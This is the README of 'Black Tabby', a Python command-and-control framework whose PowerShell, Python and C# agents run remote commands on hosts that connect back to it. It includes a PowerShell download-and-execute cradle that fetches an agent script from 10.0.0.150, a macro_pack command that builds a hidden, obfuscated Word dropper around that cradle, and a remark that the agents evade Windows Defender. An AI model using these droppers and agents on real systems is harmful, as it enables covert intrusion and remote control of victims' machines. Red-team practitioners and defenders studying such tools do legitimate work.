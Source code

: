 # Black Tabby

Black Tabby is a Command & Control Server written in Python with agents written in python, powershell, C#








### Prerequisites
```
Docker
Python3
```

### Quick Setup

![](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA)

After Run BlackTabby.py to create the CouchDB View


### Setup

After docker and python3 is on your machine all you need to do is clone this repo and run the setup.sh file

```
git clone https://github.com/latortuga71/Black_Tabby.git
cd Black_Tabby
chmod +x setup.sh
pip3 -r install requirements.txt
./setup.sh
```

Then you will be asked to set the username & password for the CouchDB container and it will run on port 5984 of your local machine
It will also ask you for two secrets, a user-agent secret and an agent secret, these are very importing and are used when creating agents
so they can authenticate to your flask server. Which in turn communicates to the CouchDB container

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup1.JPG)

After that has successfully completed run the following command
```
python3 BlackTabby.py
```
You will be asked for the credentials provided as well as the ip address and port that the CouchDB container is running on which should be 127.0.0.1 5984 unless you set this up to run on a different server that the CLI interface will be running on. This will create a view in CouchDB that is neccesary for the CLI to function properly.

## Agents
So far the only agents that can be created through the CLI are python and powershell, i wrote a C# agent that has my loopback hardcoded, as well as the agent secrets if this is edited to suite anyones needs then it can also be used. The C# source folder is [Here](https://github.com/latortuga71/Black_Tabby/tree/master/Agents/C%23AGENT/CSHARPAGENT)

## Droppers
In the DropperStuff folder i was able to create word doc that ran the following code as a way of executing the powershell agent.

```
IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') 
```
I came across [MacroPack](https://github.com/sevagas/macro_pack) which creates and obfuscates dropper files for you go ahead and check it out is pretty awesome. That in conjunction with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a great combo. Below is command i used in macropack specifically.

```
echo "powershell.exe -windowstyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') -WindowStyle Hidden" | macro_pack.exe -t CMD -o -G  cmd.doc
```

## Creating Agents

There is an option on the CLI that allows you to create agents, it will ask you for the ip address and port it will be connecting to. In this case you do not enter the port 5984 which is CouchDB you would enter 9000 which is the flask server.
So if you are running the CLI and Server on same host, you would enter 127.0.0.1 and port 9000. After you will be asked for the two secrets specified during the bash setup script.

## Agent CLI (Work in progress)

Once you have connected to an agent just enter ? to see a list of options
* execute followed by a command will run a command and return the result
```
execute cmd
```
* get_all will return the full database document for that agent
* export json will write the json to a file.
```
export_json /tmp/json_output.txt
```

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup3.JPG)

## Does it trigger antivirus tho?
As far as i know, the powershell and c# agents themselves dont trigger defender.

## Full Explanation eventually
Couchdb docker container
Flask as intermediary 
Agents as whatever

